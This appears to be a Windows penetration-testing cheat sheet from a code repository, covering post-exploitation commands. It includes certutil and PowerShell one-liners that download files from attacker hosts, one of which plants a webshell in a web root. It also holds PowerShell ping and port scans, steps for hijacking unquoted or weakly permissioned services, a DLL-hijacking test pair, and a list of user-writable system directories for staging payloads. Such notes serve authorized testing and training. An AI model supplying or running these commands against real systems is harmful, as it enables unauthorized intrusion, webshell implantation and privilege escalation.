   # Windows Snippets

wget for Windows:
```
certutil.exe -urlcache -f http://172.16.1.100:8001/FILE.exe OUTFILE.exe
or
powershell "(New-Object System.Net.WebClient).DownloadFile('http://HOST:PORT/webshell.php', 'C:\Apache24\htdocs\SOME_DIR\BLEND_ING.php')"
or
powershell iwr -uri 'http://10.10.16.111/FILE.exe' -Outfile C:\\Windows\\Tasks\\FILE.exe
```

check for impersonate privs and other privs:
```
whoami /priv
```

Run `dir` recursively:
```
gci -recurse .
```

Get open/connected ports
```
netstat -aon
```

# Scans
Subnet ping scan (about 5 seconds per host)
```
1..20 | % {"10.10.123.$($_): $(Test-Connection -count 1 -comp 10.10.123.$($_) -quiet)"}
```
Port scan single host ([other port scans](https://medium.com/@nallamuthu/powershell-port-scan-bf27fc754585))
```
1..1024 | % {echo ((new-object Net.Sockets.TcpClient).Connect("10.10.123.110",$_)) "Port $_ is open!"} 2>$null
```

# Exploiting Windows Services
Listing services for weak perms and unquoted service paths ([link](https://www.hackingarticles.in/windows-privilege-escalation-weak-services-permission/))
```
wmic service get name,startname,pathname
```
```
sc qc SERVICENAME # Check if BINARY_PATH_NAME calls an unquoted service path and see if is a priv esc opp
```
```
./accesschk /accepteula -uwdq "C:\DIR\FROM\ABOVE" # check write perms of a subdir of BINARY_PATH_NAME so we can commandeer the service call w our own executable
```
```
net start SERVICENAME # start the service after dropping our executable into the path
```

Kernel Priv Esc:
- save `systeminfo` output and run through the [Windows Exploit Suggester_new](https://github.com/bitsadmin/wesng)


# DLL Injections
__hello.c__
```
#include <windows.h>
#include <stdio.h>

int main( void )
{
	HINSTANCE hDll;

	// Load a DLL
	hDll = LoadLibrary(TEXT("yoyo.dll"));

	// If DLL Was Loaded
	if (hDll != NULL){
		printf("DLL Found\n");
	} else {
		printf("DLL NOT FOUND!\n");
	}

	return 0;
}
```

__dll.c__
```
#include <windows.h>

BOOL WINAPI
DllMain (HANDLE hDll, DWORD, dwReason, LPVOID lpReserved)
{
	switch (dwReason)
	{
		case DLL_PROCESS_ATTACH:
			MessageBox(
				Null, // Owner
				"Some Message Text",
				"The Title",
				MB_ICONERROR | MB_OK // TYPE
			);
		break;
	}
	return TRUE;
}
```

## Tips
1. https://github.com/ankh2054/windows-pentest

__Dirs writable by default by normal users:__
```
C:\Windows\Tasks
C:\Windows\Temp
C:\windows\tracing
C:\Windows\Registration\CRMLog
C:\Windows\System32\FxsTmp
C:\Windows\System32\com\dmp
C:\Windows\System32\Microsoft\Crypto\RSA\MachineKeys
C:\Windows\System32\spool\PRINTERS
C:\Windows\System32\spool\SERVERS
C:\Windows\System32\spool\drivers\color
C:\Windows\System32\Tasks\Microsoft\Windows\SyncCenter
C:\Windows\System32\Tasks_Migrated (after peforming a version upgrade of Windows 10)
C:\Windows\SysWOW64\FxsTmp
C:\Windows\SysWOW64\com\dmp
C:\Windows\SysWOW64\Tasks\Microsoft\Windows\SyncCenter
C:\Windows\SysWOW64\Tasks\Microsoft\Windows\PLA\System
```

